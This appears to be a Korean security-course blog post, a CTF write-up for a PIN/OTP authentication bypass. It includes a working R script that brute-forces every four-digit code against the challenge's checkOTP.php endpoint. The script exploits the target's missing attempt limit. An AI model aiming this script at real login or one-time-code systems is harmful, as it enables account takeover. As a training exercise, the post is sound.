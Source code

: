```yaml
---
layout: single
title:  "5주차 SQL injection 인증우회 문제풀이(4)"
categories: SQL-injection
typora-root-url: ..\
author_profile: false

---
```


<br>

# <span style="background:#000000; color:#ffffff">1. 5주차 SQL injection 인증우회 문제풀이(4)</span>

<br><span style='font-weight:bold; font-size:15px'> ※ 주의 사항 :</span>   

<span style='font-weight:bold; font-size:15px'>1. 교육 목적으로만 이용 해주세요.</span><br>
<span style='font-weight:bold; font-size:15px'>2. 무단 침입, 데이터 유출, 개인 정보 침해 등 불법적인 활동은 심각한 법적 결과를 초래할 수 있습니다.</span><br>
<span style='font-weight:bold; font-size:15px'>3.  개인적인 테스트 환경을 구축해서 실습하시길 바랍니다. </span>

<br>

## <span style="background:#696969; color:#ffffff">1.1  4번 문제</span>

<br>



<img src="/images/2024-05-29-SQLinjection8/1.PNG" alt="1" style="zoom:80%;" />

<img src="/images/2024-05-29-SQLinjection8/2.PNG" alt="2" style="zoom:67%;" />

<br>

<span style='font-weight:bold; font-size:25px'>▶ 목표 : PIN Code 알아내기!!! </span>

<br>

### <span style="background:#A9A9A9; color:#ffffff">1.1.1 주어진 정보 확인하기</span>

***

<br>

<img src="/images/2024-05-29-SQLinjection8/3.PNG" alt="3" style="zoom:67%;" />

<img src="/images/2024-05-29-SQLinjection8/4.PNG" alt="4" style="zoom:60%;" />

비밀번호를 입력한 파일 요청한 응답을 보면 번호가 바뀐 url로 리다이렉션 하므로 번호를 알아야만 접속할 수 있습니다.  
하지만 틀려도 횟수 제한이 걸려 있지 않기 때문에 여러  번 시도 할 수 있는 것을 이용하여 intruder를 사용하면 될 듯 합니다.  
(Brute Force Attack)

<br>

<img src="/images/2024-05-29-SQLinjection8/5.PNG" alt="5" style="zoom:70%;" />

<img src="/images/2024-05-29-SQLinjection8/6.PNG" alt="6" style="zoom:50%;" />

<img src="/images/2024-05-29-SQLinjection8/7.PNG" alt="7" style="zoom: 67%;" />

그렇지만 확장 기능이 없으므로 특정 변화가 생기면 멈추지 않습니다. 일일이 수동으로 변화를 감지할 수도 없는 노릇이니  
다른 프로그램 언어로 서버로 요청하는 것이 좋을 것 같습니다.

### <br><span style="background:#A9A9A9; color:#ffffff">1.1.2  R 프로그램을 이용하여 서버로 요청하기<span style='font-size:80%'>(Brute Force Attack)</span></span>

***

<br>

해당 방법을 이용하면 응답이 다를 때 중단되도록 만들었습니다.

```R
library(httr)

# OTP 검증 함수 정의
check_otp <- function(otp) {
  base_url <- "http://ctf.segfaulthub.com:1129/6/checkOTP.php"
  query_string <- sprintf("?otpNum=%s", otp)
  full_url <- paste0(base_url, query_string)
  
  # 서버로부터 응답 받기
  response <- GET(full_url)
  
  # 응답 내용에서 HTML을 추출
  response_content <- content(response, "text", encoding = "UTF-8")
  
  # 응답 내용의 첫 100자 출력
  cat("Testing OTP: ", otp, "\nResponse Content: ", substr(response_content, 1, 100), "\n")
  
  # 응답 내용 반환
  return(response_content)
}

# 초기 응답 저장
initial_response <- check_otp("0000")

# 모든 OTP 검증
for (i in 1:9999) {
  otp <- sprintf("%04d", i)
  current_response <- check_otp(otp)
  
  # 현재 응답과 초기 응답 비교
  if (current_response != initial_response) {
    cat("Response changed at OTP: ", otp, "\n")
    break  # 응답이 변경되었을 때 루프 중단
  }
}
```



<img src="/images/2024-05-29-SQLinjection8/8.PNG" alt="8" style="zoom:50%;" />

<img src="/images/2024-05-29-SQLinjection8/9.PNG" alt="9" style="zoom:50%;" />
